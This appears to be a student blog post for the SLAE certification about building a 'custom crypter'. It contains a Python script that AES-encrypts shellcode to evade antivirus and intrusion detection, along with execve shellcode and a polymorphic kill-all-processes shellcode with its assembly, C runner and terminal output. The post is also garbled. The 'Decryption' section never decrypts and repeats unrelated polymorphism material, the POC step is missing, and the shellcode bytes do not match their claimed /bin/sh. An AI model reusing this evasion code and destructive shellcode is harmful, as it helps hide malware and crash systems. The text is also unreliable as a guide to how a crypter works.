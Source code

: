 ```yaml
---
title:  "SLAE x86 Assignment 7: Custom Crypter"
header:
  teaser: "/assets/images/slae32.png"
  teaser_home_page: true
#categories:
#  - exploit dev
classes: wide
#tags:
#  - exploit dev
#  - slae
---
```


### Custom Crypter
------

* Create a custom crypter
* Use any encryption schema
* Use any programming language

#### Concept 
-----

A crypter is defined as a tool that has the ability to encrypt, obfuscate, and manipulate malicious code making it undetectable to common AV and IDS systems. 

Similar to the custom Encoder created in an earlier assignment, the concept is developed further with the use of an encryption scheme, leading to a higher success rate of evasion by decrypting the malicious code at run-time and executing on the target host.

The AES (Advanced Encryption Standard) cipher  algorithm also known as Rijndael, will be used to illustrate the concept of a custom Encoder:

* Symmetric-key algorithm (same key used to encrypt and decrypt the data)
* 3 different key sizes - 128/192/256 bits
* 128-bit block sizes (data is divided into 4x4 arrays each containing 16 bytes)
* High-speed performance and low RAM (memory) utilization when encrypting/decrypting 

![AES](/assets/images/AES.jpg) 

3 steps used to demonstrate the Crypter process:

* Encryption
* Decryption
* POC

#### Encryption
--------

The execve-stack shellcode from the course material will be used as a reference for the shellcode, which spawns a <code class="language-plaintext highlighter-rouge">/bin/sh</code> shell on the local host:

```bash
"\x31\xc0\x50\x68\x2f\x2f\x6c\x73\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
```

A python script will be used as a Crypter wrapper to implement the AES encryption/decryption, referenced from Code Koala [http://www.codekoala.com/posts/aes-encryption-python-using-pycrypto] [encryption-codekoala].

Note in this instance a static 128-bit key <code class="language-plaintext highlighter-rouge">DisShudBSecretEncryption</code> is hardcoded into the script for the sake of the POC to illustrate the concept, best practice is to randomly generate a key:

```python
#!/usr/bin/python

# Filename: AES_encryption.py
# Author: h3ll0clar1c3
# Purpose: Wrapper script to generate encrypted shellcode from the original shellcode
# Usage: python AES_encryption.py 

from Crypto.Cipher import AES
import sys
import os
import base64

def aes128(shc):

#block size = 16 byte arrays
 BLOCK_SIZE = 16 
 PADDING = '{'
 pad = lambda s: s + (BLOCK_SIZE - len(s) % BLOCK_SIZE) * PADDING
 EncodeAES = lambda c, s: base64.b64encode(c.encrypt(pad(s)))

#static encryption/decryption key - must be 16/24/32 bytes long
 secret = 'DisShudBSecretEncryption' 
 cipher = AES.new(secret)
 encoded = EncodeAES(cipher, shc)
 print 'Encrypted shellcode using AES 128-bit key + Base64 encoded:\n\n', encoded

#execve-stack shellcode to spawn /bin/sh shell
shellcode = """
\\x31\\xc0\\x50\\x68\\x2f\\x2f\\x6c\\x73\\x68\\x2f\\x62\\x69\\x6e\\x89\\xe3\\x50\\x89\\xe2\\x53\x89\\xe1\\xb0\\x0b\\xcd\\x80
"""

Encryption = aes128 (shellcode)
```

As a POC, the AES encryption wrapper script is executed resulting in the original shellcode being encrypted and base-64 encoded:

```bash
osboxes@osboxes:~/Downloads/SLAE$ python AES_encryption.py 
Encrypted shellcode using AES 128-bit key + Base64 encoded:

JORa9JYDlDQi0SwuPPwAbqJZydd7ID1G+aUeYRJbEqUygnmo4zi+D0H4o2Dc/FJRJSUNfcu9zM33bg8NcB95qQhhTJ3xKvEiXnY7fLPOt3M6fesL0nrQFrwgUTl8dDr9L2W3vrdYl0Ps9ByF5OwqaQ==
osboxes@osboxes:~/Downloads/SLAE$ 
```

#### Decryption
--------------

The <code class="language-plaintext highlighter-rouge">killall</code> command on a Linux based system will literally terminate all running processes that are currently active on the target host’s machine.

Referenced from Shell-Storm [http://shell-storm.org/shellcode/files/shellcode-212.php] [killall-shellstorm]:

```c
/* By Kris Katterjohn 11/13/2006
 *
 * 11 byte shellcode to kill all processes for Linux/x86
 *
 *
 *
 * section .text
 *
 *      global _start
 *
 * _start:
 *
 * ; kill(-1, SIGKILL)
 *
 *      push byte 37
 *      pop eax
 *      push byte -1
 *      pop ebx
 *      push byte 9
 *      pop ecx
 *      int 0x80
 */

main()
{
       char shellcode[] = "\x6a\x25\x58\x6a\xff\x5b\x6a\x09\x59\xcd\x80";

       (*(void (*)()) shellcode)();
}
```

The polymorphic (modified) version of the original shellcode is scripted in Assembly:

```nasm 
; Filename: killall_poly.nasm
; Author: h3ll0clar1c3
; Purpose: Terminates processes running on the local host
; Compilation: ./compile.sh killall_poly
; Usage: ./killall_poly
; Shellcode size: 15 bytes
; Architecture: x86

global   _start

section .text
        _start:

	sub eax, eax			; initialize register // added instruction
	mov al, 0x25			; move 0x25 into al // changed the method
	sub ebx, ebx			; initialize register // added instruction
	dec ebx				; decrement ebx // replaced push 0xffffffff
	sub ecx, ecx			; initialize register // added instruction
	mov cl, 0xf7			; move 0xf7 intocl // added instruction
	neg cl				; negates 0xf7 // added instruction
	int 0x80			; call the interrupt to execute the syscall
```

The Assembly code is compiled by assembling with Nasm, and compiled as an executable binary.

Objdump is used to extract the shellcode from the <code class="language-plaintext highlighter-rouge">killall</code> command in hex format (Null free):

```bash
osboxes@osboxes:~/Downloads/SLAE$ objdump -d ./killall_poly | grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g' 
"\x29\xc0\xb0\x25\x29\xdb\x4b\x29\xc9\xb1\xf7\xf6\xd9\xcd\x80"
```

A C program scripted with the newly generated shellcode:

```c 
/**
* Filename: killall_poly_shellcode.c
* Author: h3ll0clar1c3
* Purpose: Terminates processes running on the local host   
* Compilation: gcc -fno-stack-protector -z execstack -m32 killall_poly_shellcode.c -o killall_poly_final
* Usage: ./killall_poly_final
* Shellcode size: 15 bytes
* Architecture: x86
**/

#include <stdio.h>
#include <string.h>

unsigned char code[] = \
"\x29\xc0\xb0\x25\x29\xdb\x4b\x29\xc9\xb1\xf7\xf6\xd9\xcd\x80";

int main()
{
        printf("Shellcode length: %d bytes\n", strlen(code));
        int (*ret)() = (int(*)())code;
        ret();
}
```

The C program is compiled as an executable binary with stack-protection disabled, and executed resulting in a shellcode size of 15 bytes:

```bash
osboxes@osboxes:~/Downloads/SLAE$ ./killall_poly_final Connection to 192.168.0.142 closed by remote host.
Connection to 192.168.0.142 closed.
```

The polymorphic version of the shellcode is 36% larger in size compared to the original reference from Shell-Storm.

##### SLAE Disclaimer ####
---------

This blog post has been created for completing the requirements of the [SLAE certification] [slae-link].

Student ID: PA-14936

GitHub Repo: [Code][github-code]

[slae-link]: http:/securitytube-training.com/online-courses/securitytube-linux-assembly-expert
[github-code]: https://github.com/h3ll0clar1c3/SLAE/tree/master/Exam/Assignment7
[encryption-codekoala]: http://www.codekoala.com/posts/aes-encryption-python-using-pycrypto
